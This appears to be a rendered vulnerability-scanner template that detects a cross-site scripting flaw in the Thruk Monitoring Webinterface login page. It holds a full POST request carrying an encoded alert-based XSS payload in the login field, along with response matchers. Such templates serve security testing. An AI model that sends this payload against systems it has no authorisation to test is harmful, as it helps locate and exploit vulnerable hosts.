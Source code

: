 **Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Thruk Monitoring Webinterface - Cross-Site Scripting

## Description

- Thruk Monitoring Webinterface contains a cross-site scripting vulnerability via the login parameter at /thruk/cgi-bin/login.cgi.

- severity - high
- tags - thruk,xss

## Requests

### Step - 1

```
POST /thruk/cgi-bin/login.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

referer=&login=%22%3Csvg%2Fonload%3Dalert%28document.domain%29%3E%22%40gmail.com&password=test&submit=Login

```

### Matchers

**Type - word**

- words
  1. \<svg/onload=alert(document.domain)>"@gmail.com') called at

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 500

---